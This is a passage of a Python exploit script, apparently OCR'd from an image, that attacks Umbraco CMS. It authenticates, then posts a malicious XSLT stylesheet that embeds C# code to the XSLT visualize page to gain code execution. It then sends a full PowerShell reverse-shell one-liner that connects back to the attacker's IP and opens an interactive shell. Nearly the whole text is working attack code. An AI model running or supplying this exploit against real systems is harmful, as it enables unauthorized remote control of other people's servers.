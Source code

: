 ```python
        raise e

    with open('exploit.cs', 'r') as csharp:
        code = csharp.read().strip()

    payload = f"""
    <?xml version="1.0"?>
    <xsl:stylesheet version="1.0"
        xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
        xmlns:msxsl="urn:schemas-microsoft-com:xslt"
        xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">
        <msxsl:script language="C#" implements-prefix="csharp_user">
{code}
        </msxsl:script>
        <xsl:template match="/">
            <xsl:value-of select="csharp_user:xml()"/>
        </xsl:template>
    </xsl:stylesheet>
    """
    payload = payload.strip() % (args.ip, 4444)
    stable_revshell = '$client = New-Object System.Net.Sockets.TCPClient("%s", 4445)' % args.ip
    stable_revshell += ';$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

    # Process Login
    url_login = host + "/umbraco/backoffice/UmbracoApi/Authentication/PostLogin"
    log.info(f'Logging in at {url_login}')
    loginfo = { "username": login, "password": password}
    s = requests.session()
    r2 = s.post(url_login,json=loginfo)

    # Go to vulnerable web page
    url_xslt = host + "/umbraco/developer/Xslt/xsltVisualize.aspx"
    log.info(f'Exploiting at {url_xslt}')
    r3 = s.get(url_xslt)

    soup = BeautifulSoup(r3.text, 'html.parser')
    VIEWSTATE = soup.find(id="__VIEWSTATE")['value']
    VIEWSTATEGENERATOR = soup.find(id="__VIEWSTATEGENERATOR")['value']
    UMBXSRFTOKEN = s.cookies['UMB-XSRF-TOKEN']
    headers = {'UMB-XSRF-TOKEN': UMBXSRFTOKEN}
    data = { "__EVENTTARGET": "", "__EVENTARGUMENT": "", "__VIEWSTATE": VIEWSTATE,
        "__VIEWSTATEGENERATOR": VIEWSTATEGENERATOR,
        "ctl00$body$xsltSelection": payload,
        "ctl00$body$contentPicker$ContentIdValue": "",
        "ctl00$body$visualizeDo": "Visualize+XSLT" }

    # Launch the attack
    Thread(target=s.post, args=(url_xslt,), kwargs={'data': data, 'headers': headers}).start()

    initial.wait_for_connection()
    initial.sendline(stable_revshell.encode('ascii'))
    final.wait_for_connection()

    # Quick hack to display prompt lol
    final.sendline(b'whoami')
    final.recvline()
    final.interactive(prompt='')

if __name__ == '__main__':
```